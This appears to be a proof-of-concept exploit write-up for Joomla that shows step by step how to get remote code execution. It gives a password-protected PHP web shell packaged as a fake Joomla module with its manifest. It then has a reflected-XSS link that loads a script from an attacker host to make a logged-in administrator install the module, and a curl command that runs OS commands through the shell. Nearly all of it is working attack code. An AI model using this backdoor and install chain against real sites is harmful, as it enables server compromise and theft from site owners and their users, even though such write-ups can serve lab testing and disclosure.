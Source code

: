 # [RCE] Install Module

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create Joomla module containing PHP payload] backdoor source code

(`mod_RCE_PoC.xml`)

```
<?xml version="1.0" encoding="utf-8"?>
<extension type="module" version="3.8" client="site" method="upgrade">
	<name>Joomla RCE PoC</name>
	<creationDate>Feb 2024</creationDate>
	<author>test</author>
	<authorEmail>test@localhost</authorEmail>
	<authorUrl>https://localhost</authorUrl>
	<copyright>test</copyright>
	<version>1.0</version>
	<files>
		<filename module="mod_RCE_PoC">mod_RCE_PoC.php</filename>
		<filename>mod_RCE_PoC.xml</filename>
	</files>
</extension>
```

(`mod_RCE_PoC.php`)

```
<?php
if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
?>
```

2. [create Joomla module containing PHP payload] create Joomla module

```
zip mod_RCE_PoC.zip mod_RCE_PoC.xml mod_RCE_PoC.php
```

3. victim user (with administrative privileges) logs in

http://192.168.5.19/administrator

4. victim user clicks link

```
http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.13/installModuleJoomla.js></script>
```

5. execute OS command

```
curl -s "http://192.168.5.19/modules/mod_rce_poc/mod_RCE_PoC.php?pass=test&cmd=id" | head -n 1
```

6. [optional] uninstall module

*Joomla -> System -> [Manage] Extensions -> (sort by latest ID) -> (mark checkbox) Joomla RCE PoC -> Uninstall -> Yes*

## Screenshots

![Image](screenshots/Joomla_-_install_module_-_1-1.png)
